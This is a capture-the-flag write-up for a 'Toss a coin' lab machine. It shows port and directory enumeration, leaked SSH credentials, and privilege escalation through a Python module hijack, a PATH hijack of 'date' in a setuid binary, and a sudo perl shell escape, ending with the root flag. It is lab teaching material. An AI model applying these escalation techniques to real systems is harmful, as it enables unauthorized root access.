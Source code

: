 # Toss a coin

## Enumeration
```bash
└─$ nmap  -sV -A -p- -sC  10.10.155.232
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-20 10:42 BST
Nmap scan report for 10.10.155.232
Host is up (0.049s latency).
Not shown: 65533 clo10.10.215.79sed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 8e:ee:fb:96:ce:ad:70:dd:05:a9:3b:0d:b0:71:b8:63 (RSA)
|   256 7a:92:79:44:16:4f:20:43:50:a9:a8:47:e2:c2:be:84 (ECDSA)
|_  256 00:0b:80:44:e6:3d:4b:69:47:92:2c:55:14:7e:2a:c9 (ED25519)
80/tcp open  http    Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
|_http-title: Toss a coin to your witcher
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 27.61 seconds

└─$ gobuster dir -u http://10.10.155.232 -w /usr/share/wordlists/dirbuster/directory-list-1.0.txt -x txt,php,js
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.155.232
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-1.0.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              txt,php,js
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/t                    (Status: 301) [Size: 0] [--> t/]
/img                  (Status: 301) [Size: 0] [--> img/]
Progress: 99509 / 566836 (17.56%)^C
[!] Keyboard interrupt detected, terminating.
Progress: 99609 / 566836 (17.57%)
===============================================================
Finished
===============================================================
```

### After a long time i got this : http://10.10.155.232/t/o/s/s/_/a/_/c/o/i/n/_/t/o/_/y/o/u/r/_/w/i/t/c/h/e/r/_/o/h/_/v/a/l/l/e/y/_/o/f/_/p/l/e/n/t/y/
```bash
ssh jaskier:YouHaveTheMostIncredibleNeckItsLikeASexyGoose
```
## Exploitation

## Privilege Escalation
### I found a script using random python library so I hijack it
```bash
touch random.py

import os
os.system("bash")

sudo -u yen /usr/bin/python3.6 /home/jaskier/toss-a-coin.py
```
## User FLAG
I forgot to write it

```bash
└─$ strings portal
/lib64/ld-linux-x86-64.so.2
libc.so.6
setuid
puts
getchar
system
__cxa_finalize
setgid
__libc_start_main
GLIBC_2.2.5
_ITM_deregisterTMCloneTable
__gmon_start__
_ITM_registerTMCloneTable
u+UH
[]A\A]A^A_
I am preparing a portal for you Geralt.
/bin/echo -n 'It will be ready in about ' && date --date='next hour' -R
You just have to wait for it
Segmentation fault (core dumped)
:*3$"
GCC: (Ubuntu 9.3.0-17ubuntu1~20.04) 9.3.0
crtstuff.c
deregister_tm_clones
__do_global_dtors_aux
completed.8060
__do_global_dtors_aux_fini_array_entry
frame_dummy
__frame_dummy_init_array_entry
portal.c
__FRAME_END__
__init_array_end
_DYNAMIC
__init_array_start
__GNU_EH_FRAME_HDR
_GLOBAL_OFFSET_TABLE_
__libc_csu_fini
_ITM_deregisterTMCloneTable
puts@@GLIBC_2.2.5
_edata
system@@GLIBC_2.2.5
__libc_start_main@@GLIBC_2.2.5
__data_start
getchar@@GLIBC_2.2.5
__gmon_start__
__dso_handle
_IO_stdin_used
__libc_csu_init
__bss_start
main
setgid@@GLIBC_2.2.5
__TMC_END__
_ITM_registerTMCloneTable
setuid@@GLIBC_2.2.5
__cxa_finalize@@GLIBC_2.2.5
.symtab
.strtab
.shstrtab
.interp
.note.gnu.property
.note.gnu.build-id
.note.ABI-tag
.gnu.hash
.dynsym
.dynstr
.gnu.version
.gnu.version_r
.rela.dyn
.rela.plt
.init
.plt.got
.plt.sec
.text
.fini
.rodata
.eh_frame_hdr
.eh_frame
.init_array
.fini_array
.dynamic
.data
.bss
.comment
```
### Binary hijack on date binary

```bash
vim date
#!/bin/bash
/bin/bash

chmod +x date
export PATH=.:$PATH

./portal
```
### I got a shell as geralt

```bash
cd /home/geralt
```
```cat password.txt``` : IH4teP0rt4ls
```bash
sudo -l 

[sudo] password for geralt: 
Matching Defaults entries for geralt on the-continent:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User geralt may run the following commands on the-continent:
    (root) /usr/bin/perl
```

```bash
sudo perl -e 'exec "/bin/sh";'
```

## Root FLAG
```cat /root/root.txt``` : EPI{D3s71Ny_1s_Ju5t_Th3_3mB0D1m3Nt_0f_Th3_S0uL_S_D3s1R3_T0_Gr0W}



